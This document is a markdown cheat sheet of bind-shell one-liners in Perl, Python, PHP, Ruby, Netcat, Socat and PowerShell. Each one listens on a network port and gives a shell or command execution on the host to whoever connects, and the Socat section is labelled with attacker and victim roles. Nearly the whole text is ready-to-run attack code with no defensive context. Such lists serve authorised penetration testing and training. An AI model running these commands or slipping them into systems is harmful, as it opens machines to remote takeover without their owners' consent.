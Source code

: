 # Bind Shell

## Summary

* [Bind Shell](#bind-shell)
    * [Perl](#perl)
    * [Python](#python)
    * [PHP](#php)
    * [Ruby](#ruby)
    * [Netcat Traditional](#netcat-traditional)
    * [Netcat OpenBsd](#netcat-openbsd)
    * [Ncat](#ncat)
    * [Socat](#socat)
    * [Powershell](#powershell)


## Perl

```perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

## Python

Single line :
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Expanded version :

```python
import socket as s,subprocess as sp;

s1 = s.socket(s.AF_INET, s.SOCK_STREAM);
s1.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);
s1.bind(("0.0.0.0", 51337));
s1.listen(1);
c, a = s1.accept();

while True: 
    d = c.recv(1024).decode();
    p = sp.Popen(d, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE);
    c.sendall(p.stdout.read()+p.stderr.read())
```

## PHP

```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

## Ruby

```ruby
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

## Netcat Traditional

```powershell
nc -nlvp 51337 -e /bin/bash
```

## Netcat OpenBsd

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

## Socat

```powershell
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Powershell

```powershell
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```
